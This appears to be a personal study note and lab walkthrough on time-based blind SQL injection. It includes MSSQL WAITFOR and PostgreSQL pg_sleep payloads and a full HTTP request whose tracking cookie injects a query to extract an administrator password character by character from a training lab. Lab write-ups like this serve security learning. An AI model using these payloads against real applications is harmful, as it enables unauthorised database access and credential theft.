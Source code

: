 ```yaml
---
tags: ["time based sqli", "sqli", "postgresql"]
---
```


# Time based SQLi

In the preceding example, suppose that the application now catches database errors and handles them gracefully. Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

`'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

## Lab 1

--> I tried different payloads for different languages and then i found the database as `postgresql`

--> Then i used this payload :

`'||(SELECT pg_sleep(10))--`

![](Attachments/Pastedimage20211003083304.png)

## Lab 2

--> we need to url encode our payload

```bash
GET / HTTP/1.1
Host: ac561f391f05b39780dc3ba500db005d.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: TrackingId=Z1vLE0dJIDLqmubp'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--; session=9C0MvWcMHNxQpDVq5C7najb7EK9vqN8M
Upgrade-Insecure-Requests: 1
```

--> i got these results

![](Attachments/Pastedimage20211003130049.png)

--> after sorting them i got the password !

`y40d3082rrsk1kpvbsds`

![](Attachments/Pastedimage20211003130007.png)
